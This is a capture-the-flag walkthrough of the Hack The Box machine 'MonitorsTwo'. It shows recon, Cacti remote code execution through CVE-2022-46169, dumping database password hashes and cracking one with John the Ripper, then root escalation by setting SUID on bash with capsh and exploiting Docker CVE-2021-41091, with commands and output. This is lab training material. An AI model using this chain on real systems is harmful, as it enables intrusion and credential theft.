



# MonitorsTwo
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
└─$ nmap -Pn -sC -sV -oA nmap/initial 10.10.11.211
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-04 10:43 CEST
Nmap scan report for 10.10.11.211
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.39 seconds
```

## 2. TCP-80
There is an active service on port 80 ! 

<p align="center">
  
</p>

We find a login form which we try to access with default credentials (such as `admin:admin`) but to no avail.

**BACKGROUND**

    "Cacti is an open-source, web-based network monitoring, performance, fault and configuration management framework designed as a front-end application for the open-source, industry-standard data logging tool [RRDtool]( https://en.wikipedia.org/wiki/RRDtool)." (from [Wikipedia](https://en.wikipedia.org/wiki/Cacti_(software)))

## 3. RCE - CVE-2022-46169
After a little research I find that it is possible to bypass the login and perform a RCE. So I found an [exploit](https://github.com/MarkStrendin/CVE-2022-46169/tree/main) that allowed me to have a shell.

<p align="center">
  
</p>

Searching in the various folders, you can find the file `entrypoint.sh`, in the root directory, where there are credentials to access a mysql db.

```bash
www-data@50bca5e748b0:/$ cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

In the file we also find queries that are made to change the admin password so we know which table will contain this information and then we run a query on that table.

```bash
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_trees    policy_hosts        policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      on      on      on      2       1       1       1       1       on      -1      -1 -1               0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1       1       1       1       1       on      -1      -1 on       0       0       2135691668
```

In addition to the admin we find another user and therefore the idea is to try to crack the password using `JohnTheRipper`.

```bash
└─$ john hash_pass --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)     
1g 0:00:01:23 DONE (2023-08-04 15:57) 0.01203g/s 102.6p/s 102.6c/s 102.6C/s lilpimp..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Once the password is found, we connect via ssh and find the user flag.

```bash
└─$ ssh marcus@10.10.11.211
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 04 Aug 2023 01:58:49 PM UTC

  System load:                      0.0
  Usage of /:                       63.0% of 6.73GB
  Memory usage:                     15%
  Swap usage:                       0%
  Processes:                        239
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:4c05


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ ls
user.txt
marcus@monitorstwo:~$ cat user.txt 
5e26ec3209c05ec886eef90b1da62b00
```

## 4. User to ROOT
We are in a container and the first thing I checked is its version.

```bash
marcus@monitorstwo:/tmp$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

Searching for this version of Docker on the internet, it was discovered that it is vulnerable and in particular the first result is an [exploit](https://github.com/UncleJ4ck/CVE-2021-41091) which refers to the CVE-2021-41091 to which this vulnerability refers.

On the exploit's github page, it is noted that the SUID of `/bin/bash` must be set for the exploit to work.

To search for a solution, [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) was used, both logged in by *marcus*, without finding anything, and from the previously established session.

<p align="center">
  
</p>

It is interesting what linpeas reports in the "*Files with Interesting Permissions*" as there is `capsh` which, after a short search, turned out to be the point through which the SUID can be set. In particular, the command present in an article of [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) was used.

```bash
www-data@50bca5e748b0:/var/www/html$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
whoami
root
chmod u+s /bin/bash
```

At this point we run the exploit, loaded by opening a local python server.

```bash
marcus@monitorstwo:/tmp$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

Then we run `bash -p` in the directory notified by the exploit and get the root flag.

```bash
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
d5acf148181ca7850891559a2fec2c26
```